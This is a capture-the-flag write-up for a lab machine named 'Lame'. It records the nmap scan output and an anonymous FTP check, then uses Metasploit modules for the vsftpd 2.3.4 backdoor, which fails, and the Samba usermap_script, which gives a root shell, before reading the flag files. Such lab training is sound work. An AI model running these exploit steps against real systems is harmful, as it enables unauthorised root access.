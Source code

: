 # Lame box

IP: `10.10.10.3`

## Initial recon

### First scan the port

```sh
nmap -A -T5 -p- 10.10.10.3
```

### Result from scan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 03:15 EDT
Nmap scan report for 10.10.10.3
Host is up (0.073s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   71.71 ms 10.10.14.1
2   71.86 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.29 seconds
```

### Result interpretation

First, let's look at the FTP anonymous login portion. We *could* try to login and see if we can get anything from the files inside the FTP share. But first, let's find any existing exploits for that specific FTP version.

0. We can try accessing the FTP share anonymously to see if there's aynthing in there
1. A quick google search for `ftp         vsftpd 2.3.4 exploit` yields a rapid7 exploit.
2. Another attack we can try is on the SAMBA

## Logging into the FTP server

```sh
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:omar2535): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
It gave us nothing. So there's not much to see inside this FTP share. Let's try digging a bit deeper though.

## Using the VSFTPD_234 backdoor

### Metasploit exploit run

```sh
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show targets
msf exploit(vsftpd_234_backdoor) > set TARGET 0
msf exploit(vsftpd_234_backdoor) > show options
msf exploit(vsftpd_234_backdoor) > run
# [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
# [*] 10.10.10.3:21 - USER: 331 Please specify the password.
# [*] Exploit completed, but no session was created.
```

Annnnnd a dead end. It won't give us back a session. A quick google search shows that some people suggest using netcat to create a hook for the session, but I have a feeling that the solution is easier than that, so let's the next method, SAMBA.

## Using Samba usermap script

### Metasplot exploit run

```sh
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show targets
msf exploit(usermap_script) > set TARGET 0
msf exploit(usermap_script) > show options
msf exploit(usermap_script) > run
```

And now we have a shell!

### Digging around

```sh
whoami
# root
pwd
# /
cd ~
cat root.txt # for flag for root
cd /home/makis
cat user.txt # for flag for user
```

## Takeaways

1. Don't dig too deep into the rabbit hole, try other easier methods before coming back
2. Note all possible vulnerabilities to attack so that if one method fails, other methods can be used as backup